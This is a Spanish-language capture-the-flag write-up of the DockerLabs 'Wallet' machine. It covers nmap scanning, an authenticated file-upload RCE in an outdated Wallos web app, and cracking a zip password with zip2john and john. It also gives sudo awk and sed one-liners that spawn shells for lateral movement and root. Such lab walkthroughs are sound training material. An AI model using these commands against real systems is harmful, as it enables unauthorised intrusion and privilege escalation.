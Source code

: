 ```yaml
---
layout: single
title: Wallet - DockerLabs
excerpt: "Wallet es una máquina de dificultad media de la plataforma DockerLabs. En ella abusaremos de una versión desactualizada de wallos para ganar acceso a la máquina através de un Authenticated RCE. Nos moveremos lateralmente de usuarios extrayendo el hash de un archivo .zip para crackeralo con John. Finalmente abusaremos de un binario que puede ser ejecutado como root sin proporcionar contraseña para escalar al usuario root."
date: 2024-09-12
classes: wide
header:
  teaser: /assets/images/wallet/wallet.jpeg
  teaser_home_page: true
  icon: /assets/images/dl_logo.png
categories:
  - dockerlabs
  - linux
  - medium
tags:  
  - zip2john
  - RCE
  - Lateral Movement
---
```



![Image](/assets/images/wallet/wallet.jpeg)


## Enumeración

Iniciamos el proceso de enumeración ejecutando el siguiente comando con `nmap`:

```python
❯ nmap -p- --open --min-rate 5000 -n -Pn 172.17.0.2
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-09-10 13:50 CEST
Nmap scan report for 172.17.0.2
Host is up (0.00013s latency).
Not shown: 65534 closed tcp ports (conn-refused)
PORT   STATE SERVICE
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 1.63 seconds

```

Como vemos solo esta el puerto 80 abierto. Vamos a lanzar el siguiente scaneo de `nmap` sobre el puerto 80, esta vez con scripts básicos de `enumeración de servicios` y `versiones`:

```python
❯ nmap -sCV -p80 -Pn 172.17.0.2
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-09-10 13:54 CEST
Nmap scan report for 172.17.0.2
Host is up (0.00023s latency).

PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.59 ((Debian))
|_http-server-header: Apache/2.4.59 (Debian)
|_http-title: Wallet

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 6.69 seconds

```

Echándole un ojo a la web no vemos nada interesante, pero mirando el código fuente vemos que hace referencia a un `subdominio`:

![Image 2](/assets/images/wallet/html_domain.png)

Lo añadimos a nuestro archivo `/etc/hosts` así como el dominio `wallet.dl`

Entrando al subdminio `panel.wallet.dl` vemos que nos carga un formulario para registrarnos, nos registramos y accedemos a una aplicación web llamada `wallos`. Wallos es una aplicación web open source destinada a gestionar tus finanzas de una manera más fácil y efectiva. En la sección `About and Credits` podemos ver la versión utilizada:

![Image 3](/assets/images/wallet/wallos.png)

## Intrusión

Si buscamos por vulnerabilidades de wallos, nos encontramos con un `Authenticated RCE` en versiones anteriores a la 1.11.2 ([Link al PoC](https://www.exploit-db.com/exploits/51924))

A la hora de crear una nueva suscripción, el usuario puedes subir una imagen/logo, pero el código no está sanitizado correctamente y un usuario mal intencionado puede fácilmente bypassear la comprobación y subir una "imagen" con código php.

![Image 4](/assets/images/wallet/burpsuite.png)

Nuestra shell se guarda en `images/uploads/logos/`, nos dirigimos allí y nos enviamos una reverse shell a nuestra máquina

![Image 5](/assets/images/wallet/webshell.png)

![Image 6](/assets/images/wallet/netcat.png)

## Escalada

Primero vamos a cambiarnos a una shell completamente interactiva de la siguiente manera:

```bash
script /dev/null -c bash
ctrl + z 
stty raw -echo;fg 
reset xterm
export TERM=xterm 
export SHELL=/bin/bash
stty rows 41 columns 184
```

Mirando el archivo `/etc/passwd` vemos que hay 2 usuarios, `Pylon` y `Mario`

![Image 7](/assets/images/wallet/users.png)

Con `sudo -l` vemos que podemos ejecutar el comando `awk` como pylon sin proporcionar contraseña 

![Image 8](/assets/images/wallet/sudo.png) 

```bash 
sudo -u pylon /usr/bin/awk 'BEGIN {system("/bin/bash")}'
```

Una vez estamos como Pylon, vemos que hay un comprimido `.zip`, al descomprimirlo nos pide una contraseña 

![Image 9](/assets/images/wallet/zip.png) 

Para extraer el hash y romperlo voy a usar `zip2john`, pero antes tengo que pasarme el archivo a mi máquina. La máquina víctima no tiene python, asi que usare `php` para exponer el archivo y descargarlo a mi máquina. 

```php
// Máquina víctima 
php -S 0.0.0.0:81
```

```php
// Mi máquina
wget http://172.17.0.2:81/secretitotraviesito.zip
```
Para extraer el hash y romperlo con john ejecuté los siguientes comandos:

```bash 
❯ zip2john secretitotraviesito.zip > hash
```

```python
❯ john -w:/usr/share/wordlists/rockyou.txt hash
Using default input encoding: UTF-8
Loaded 1 password hash (PKZIP [32/64])
Will run 8 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
chocolate1       (secretitotraviesito.zip/notitachingona.txt)     
1g 0:00:00:00 DONE (2024-09-10 20:27) 50.00g/s 819200p/s 819200c/s 819200C/s 123456..cocoliso
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```
Descomprimimos el zip y el contenido es la contraseña para el usuario `pinguino`

![Image 10](/assets/images/wallet/pinguino.png)

El usuario `pinguino` puede ejcutar como cualquier usuario el comando sed sin proporcionar contraseña 

![Image 11](/assets/images/wallet/sudo_root.png)

```python 
sudo /usr/bin/sed -n '1e exec /bin/bash 1>&0' /etc/hosts
```

![Image 12](/assets/images/wallet/rooted.png)

